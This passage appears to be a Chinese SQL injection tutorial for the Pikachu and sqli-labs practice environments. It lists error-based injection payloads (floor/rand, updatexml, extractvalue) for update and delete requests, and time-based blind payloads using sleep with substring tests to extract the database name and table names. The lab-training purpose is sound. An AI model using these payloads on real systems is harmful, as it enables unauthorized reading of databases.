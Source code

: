 ```
pikachu update
sex=%E7%94%B7&phonenum=13878787788&add=hubeNicky' or (select 1 from(select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x)a) or '&email=wuhan&submit=submit 

sex=%E7%94%B7&phonenum=13878787788&add=hubeNicky' or updatexml(1,concat(0x7e,(version())),0) or '&email=wuhan&submit=submit

sex=%E7%94%B7&phonenum=13878787788&add=Nicky' or extractvalue(1,concat(0x7e,database())) or '&email=wuhan&submit=submit


pikachu delete
/pikachu/vul/sqli/sqli_del.php?id=56+or+(select+1+from(select+count(*),concat(floor(rand(0)*2),0x7e,(database()),0x7e)x+from+information_schema.character_sets+group+by+x)a)

pikachu/vul/sqli/sqli_del.php?id=56+or+updatexml+(1,concat(0x7e,database()),0)

/pikachu/vul/sqli/sqli_del.php?id=56+or+extractvalue(1,concat(0x7e,database()))
```

### 16.1 判断注入点

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMh8PT5StKUFicQgs1XsSOF1v37f0zS7OohOoaxWe7WiadouURaja6Ng0VA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

**这四个位置都会接收我们传过去的数值，正常都可以作为注入点，只要可以对测试代码作出反应就可以。**

### 16.2 针对无回显的布尔、延迟

> `mysql_fetch_array`:无回显函数

SQL注入

```
延时盲注：利用 and 链接正确语句，让if判断脚本对错，两个联合起来再通过时间来给出反馈，判断脚本是否执行正确。
and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+
and if(ascii(substr((select table_name from information_schema.tables where table_schema=database()
limit 0,1),1,1))=101,sleep(3),0)--+
```

- 数据库是security就延时5秒，否则不延迟
- `http://sqli-labs:8600/Less-2/?id=1 and sleep(if(database()= 'security',5,0))--+`
- 在这里插入图片描述
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhb9gAvE6JlJvye9QSwlQia4XPkUq03OvaqicpiaKWKxxphsJVf6xl4Vubg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
- 判断数据库位数
- `http://sqli-labs:8600/Less-2/?id=1%20and%20sleep(if(length(database())=8,5,0))--+`
- 在这里插入图片描述
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMh6uvZrxed3IdnXdwtAa0ob0KsicZ8TDd37qFXqucPcmXIRvlFKLVaeFg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

### 补充
